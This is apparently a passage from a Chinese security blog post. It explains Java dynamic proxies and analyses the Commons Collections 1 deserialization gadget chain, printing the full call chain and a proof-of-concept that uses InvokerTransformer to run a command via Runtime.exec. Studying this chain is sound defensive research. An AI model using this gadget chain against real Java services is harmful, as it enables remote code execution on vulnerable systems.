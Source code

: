利用反射机制在运行时创建代理类。

接口、被代理类不变，通过构建 handler 类来实现 InvocationHandler 接口。

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```java<br>public class ProxyHandler implements InvocationHandler{<br>    private Object object;<br>    public ProxyHandler(Object object){<br>        this.object = object;<br>    }<br>    @Override<br>    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {<br>        System.out.println("Before invoke "  + method.getName());<br>        method.invoke(object, args);<br>        System.out.println("After invoke " + method.getName());<br>        return null;<br>    }<br>}<br>``` |

执行动态代理：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```java<br>public static void main(String[] args) {<br>  	System.getProperties().setProperty("sun.misc.ProxyGenerator.saveGeneratedFiles", "true");<br>    HelloInterface hello = new Hello();<br>    InvocationHandler handler = new ProxyHandler(hello);<br>    HelloInterface proxyHello = (HelloInterface) Proxy.newProxyInstance(hello.getClass().getClassLoader(), hello.getClass().getInterfaces(), handler);<br><br>    proxyHello.sayHello();<br>}<br><br>输出：<br>Before invoke sayHello<br>Hello zhanghao!<br>After invoke sayHello<br>``` |

## [](#2-commonscollections-1-gadget-%E5%88%86%E6%9E%90)2 CommonsCollections 1 Gadget 分析

### [](#21-%E8%B0%83%E7%94%A8%E9%93%BE)2.1 调用链

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```fallback<br>ObjectInputStream.readObject()<br>	AnnotationInvocationHandler.readObject()<br>		MapEntry.setValue()<br>			TransformedMap.checkSetValue()<br>				ChainedTransformer.transform()<br>					ConstantTransformer.transform()<br>					InvokerTransformer.transform()<br>						Method.invoke()<br>							Class.getMethod()<br>					InvokerTransformer.transform()<br>						Method.invoke()<br>							Runtime.getRuntime()<br>					InvokerTransformer.transform()<br>						Method.invoke()<br>							Runtime.exec()<br>``` |

### [](#22-poc)2.2 POC

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```java<br>Transformer[] transformers = new Transformer[]{<br>                new ConstantTransformer(Runtime.getRuntime()),<br>                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),<br>        };<br>        <br>        Transformer transformerChain = new ChainedTransformer(transformers);<br><br>        Map innerMap = new HashMap();<br>        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);<br>        outerMap.put("test", "Geekby");<br>``` |

### [](#23-%E5%88%86%E6%9E%90)2.3 分析

#### [](#231-%E6%95%B4%E4%BD%93%E6%80%9D%E8%B7%AF)2.3.1 整体思路

cc1 gadget 的 sink 点在于 `InvokerTransformer` 类可以通过传入方法名，方法参数类型、方法参数，利用反射机制，进行方法调用。

反向寻找使用了 `InvokerTransformer` 类中 `transform` 方法的调用点：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108281634992.png-water_print](assets/1699411715-2fe47b0b71299b87132c2484a9947a42.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108281634992.png-water_print")

